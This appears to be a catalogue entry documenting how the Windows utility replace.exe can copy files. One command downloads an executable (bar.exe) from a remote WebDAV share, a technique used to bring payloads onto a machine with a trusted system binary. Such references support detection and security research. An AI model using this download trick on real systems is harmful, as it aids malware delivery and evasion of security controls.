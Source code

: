 ## Replace.exe
* Functions: Copy, Download
```

replace.exe C:\Source\File.cab C:\Destination /A
Copy the specified file to the destination folder.

replace.exe \\webdav.host.com\foo\bar.exe c:\outdir /A
Copy the specified file to the destination folder.
```
   
* Resources:   
  * https://twitter.com/elceef/status/986334113941655553
  * https://twitter.com/elceef/status/986842299861782529
   
* Full path:   
  * C:\Windows\System32\replace.exe
  * C:\Windows\SysWOW64\replace.exe
   
* Notes: Thanks to elceef - @elceef  
   
